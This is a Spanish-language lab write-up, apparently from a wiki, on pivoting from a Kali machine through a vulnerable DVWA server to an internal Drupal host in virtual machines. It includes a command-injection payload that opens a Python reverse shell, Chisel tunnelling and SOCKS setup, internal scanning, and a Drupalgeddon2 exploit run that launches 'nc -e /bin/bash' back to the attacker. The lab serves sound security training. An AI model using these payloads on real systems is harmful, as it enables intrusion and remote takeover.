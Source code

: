 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-29T21:18:40.118Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:42.236Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
\<h1> HOLAAA </h1\>


## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="IPKALI";export RPORT=PUERTOKALI;nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/imagen_hacking_pivotaje_1.png)

Luego en la herramienta de FoxyProxy, vamos a añadir una nueva entrada con lo siguiente:
![imagen_hacking_pivotaje_2.png](/imagen_hacking_pivotaje_2.png)

> No lo activamos todavia
{.is-warning}

Tras esto, tendremos listo un proxy que puede analizar todas las peticiones como si estuvieramos viendolo desde el seridor DVWA.

Lo siguiente que haremos será establecer la conexión con chisel para poder, para ello en Kali escribiremos: 
```console
./chisel server -p 4000 --reverse
```

En nuestra maquina vulnerada (DVWA), deberemos escrbir lo siguiente:
```console
./chisel client (ip kali):4000 R:8000:127.0.0.1:8000
```

Si todo va bien, desde nuestra maquina local podremos buscar el servidor local que hicimos en DVWA:
![imagen_hacking_pivotaje_3.png](/imagen_hacking_pivotaje_3.png)


Ahora vamos a usar el socks5 que configuramos anteriormente. Para ello deberemos poner en nuestra maquina local:
```console
./chisel server -p 4000 --reverse --socks5
```

Y en nuestra maquina DVWA, vamos a poner:
```console
./chisel server -p 4000 --reverse R:socks
```


Tras esto, si activamos el proxy, podremos hacer la busqueda del servidor directametne en el navegador.

### Entrar en Debian
Para poder tener acceso a este nuevo servidor, como ya tenemos una shell ocupada con la comunicaciones, vamos a abrir un nueva shell. Para ello deberemos hacer los mismos paso que hicimos anteriormente (nc -lnvp).
Una vez tengamos una nueva shell, vamos a intentar descubrir las IP locales en esta red, para ello primero hacemos:
```script
ip a
```

Y una vez sepamos el rango de la IP, en mi caso 10.0.0.6/24. Vamos a poner un pequeño script en la máquina DVWA para detectar el resto de IPs, el escript es el siguiente:
```bash
for j in $(seq 1 10);do ping -c 10.0.3.$j > /dev/null && echo "host activo 10.0.3.$j";done
```
Esto nos devolverá un listado grande de IPs por lo que deberemos deducir cuál es el server, para ello podemos hacer uso de nmpa con:
```bash
proxychains4 -q nmap -sT -Pn 10.0.3.4
```
> Ir probando la IP con cada uno de los resultados para ver los puertos disponibles.
{.is-info}

Cuando entramos en el website, podemos descrubir que es un servidor Drupal con una vulnerabilidad de Drupalgeddon2. Por lo que podemos usar el exploit (Disponible en GitHub), para poder explotarlo.

Una vez tengamos el exploit disponible vamos a realizar lo siguiente:
- En una terminal de DVWA vamos a poner:
```bash
./chisel client (kali):4000 0.0.0.0:9999:(kali):9999
```
- En una terminal de kali:
```bash
nc -lnvp 9999
```
- En otra terminal de kali, sin cerrar la anterior:
```bash
proxychains 4 -q python2 exploit.py -h http://(ip/ dc-1) -c 'nohup nc -e /bin/bash (Ip Dvwa) 9999 &'
```